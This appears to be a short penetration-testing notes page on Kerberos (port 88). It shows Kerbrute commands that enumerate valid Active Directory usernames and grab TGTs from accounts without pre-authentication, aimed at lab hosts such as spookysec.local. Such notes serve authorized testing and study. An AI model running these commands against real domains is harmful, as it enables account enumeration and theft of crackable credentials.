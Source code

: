 # 88/464 - Kerberos

## Kerbrute

> This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication. It is designed to be used on an internal Windows domain with access to one of the Domain Controllers.

```
# enum valid usernames
./kerbrute userenum userlist.txt -d spookysec.local --dc 10.10.70.25
```

![](<../../.gitbook/assets/image (32) (2) (1).png>)

```
# validate users and grabbing TGTs if NO PREAUTH is present
kerbrute -domain DOMAIN.LOCAL -users users.txt -dc-ip 10.10.10.175
```

&#x20;****&#x20;
